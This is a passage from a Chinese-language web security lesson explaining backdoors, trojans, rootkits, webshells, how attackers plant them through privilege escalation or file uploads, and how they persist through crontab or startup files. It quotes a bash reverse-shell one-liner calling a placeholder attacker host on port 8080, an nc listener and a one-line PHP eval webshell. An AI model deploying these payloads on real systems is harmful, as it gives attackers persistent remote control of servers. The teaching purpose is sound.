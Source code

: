 ```
bash -i &gt;&amp; /dev/tcp/hacker.com/8080 0&gt;&amp;1

```

这个脚本运行后，只要hack.com的8080端口打开，那么服务器就会通过TCP获取8080端口返回的命令并执行。因此，只要黑客任意时刻在hacker.com中监听8080端口（比如通过nc -l 8080），就可以获得服务器定时送上来的命令执行权限。

所以，不管漏洞是否修复，黑客都可以通过这个快速通道轻松进入系统。**而“后门”的关键意义就在于，为黑客长时间保持高权限的通道，使得黑客能够进行长时间的潜伏和攻击。**

比较有意思的是，“后门”不仅仅是为黑客服务的，正常的应用中可能也会留下一些“后门”以备特殊情况。比如，2008年，微软曾进行过一次打击盗版Windows的行动，当时国内的盗版Windows在同一时间出现了黑屏现象。显然，微软不可能知道所有人的管理员密码，但是微软会通过预留的“后门”实现对系统的控制。类似情况还有很多，比如，管理员在特殊情况下（比如忘记密码），可以通过“后门”对应用进行一些操作。

### “后门”是如何工作的？

接着，新问题又来了，既然修复漏洞之后，黑客依然可以通过“后门”自由进出，那我们该如何关掉这个“后门”呢？我们先来看看“后门”是如何工作的，知道了它的工作原理，我们才能“对症下药”，从根本上解决问题。

我们前面课程讲过的所有攻击方式，通常都是为了造成一些显式的攻击。而“后门”的目的则不同，“后门”会尽力隐藏自己不被别人发现。因此，“后门”通常会以木马的形式出现。

所谓**木马**（Trojan），就是一些外表看起来正常，但会对应用和系统进行破坏的服务和进程。比如，很早之前流行过的“[灰鸽子](https://baike.baidu.com/item/%E7%81%B0%E9%B8%BD%E5%AD%90%E6%9C%A8%E9%A9%AC/3013692)”木马，就是和正常的应用绑定在一起。这样“灰鸽子”就能在应用运行的时候监控应用的全部操作了（屏幕、键盘、摄像头等）。又因为应用正常的功能不会受到影响，所以，用户几乎感知不到“灰鸽子”的存在。

那木马可不可以不依附于应用，直接隐藏自己呢？当然可以。那么，“后门”就发展成了Rootkit。通常来说，Rootkit会驻扎于内核中，通过修改内核的逻辑来完成“后门”的功能。因为内核具备较高的权限，所以Rootkit就能破坏杀毒软件这样的安全进程，而不被轻易发现。同样地，因为Rootkit驻扎在内核中，理论上，除了重装系统以外，没有其他更好的方式来根除“后门”。

除了以隐藏进程的形式运行“后门”，黑客也可以把“后门”留在正常的Web服务中，这就变成了WebShell。在PHP中，最简单的一句WebShell如下：

```
&lt;?php @eval($_POST['shell']);?&gt;)

```

只要将这个PHP文件放到Web服务的目录中，黑客就可以通过在POST参数中填入Shell命令远程操控服务器。

总之，“后门”通常会以木马、Rootkit或者WebShell等比较隐蔽的形式运行在系统中。而黑客可以通过和“后门”的直接通信，来获得服务器的操控权限。

### 黑客如何将“后门”植入到系统？

好了，现在你应该知道“后门”是如何工作的了，那黑客又是怎么将“后门”植入系统的呢？

毫无疑问，最直接的方式就是通过权限提升，即黑客直接获取到系统的命令执行权限，然后通过网络将“后门”程序从云端下载下来。

除此之外，黑客还可以通过**文件上传漏洞**向服务器上传一个程序。在使用应用的时候，用户经常需要上传一些文件，比如：头像的图片、邮件附件和简历等。很多时候，开发人员为了方便，会直接将上传的文件存储到当前目录，也就是Web服务的目录中。这个时候，如果黑客上传的是一个PHP文件，那么这个PHP文件就会被放入到Web服务的目录中。因此，黑客只需要上传一个包含WebShell的PHP文件，就成功了植入了一个“后门”。

通过权限提升或者文件上传漏洞成功植入“后门”之后，黑客还需要保证“后门”的持久化。因此，“后门”需要常驻于系统的后台，并能够随着系统的开关机而启动。为了实现这个目的，黑客通常会在定时任务（crontab）或者开机启动项（inittab、rc.local）的配置中，加上“后门”的执行命令。

除此之外，黑客还可以利用伴随于系统的常驻进程来保证“后门”的持久化。对于WebShell来说，只要Web服务保持可用，那么WebShell也一直可用。对于Rootkit来说，它们会直接篡改内核的初始函数来进行自启动，也就更难被发现和去除。

总之，持久化要么是通过定时任务、开机启动等方式来实现，要么就是通过伴随于系统的常驻进程来实现。

## 面对权限提升和持久化，该怎么进行防护？

好了，现在你应该已经知道，权限提升和持久化的原理和攻击方式了。那面对权限提升和持久化，我们该如何防护呢？这里我为你介绍两种常见的防护方法，它们分别是：最小权限原则和IDS。下面，我们一起来看。
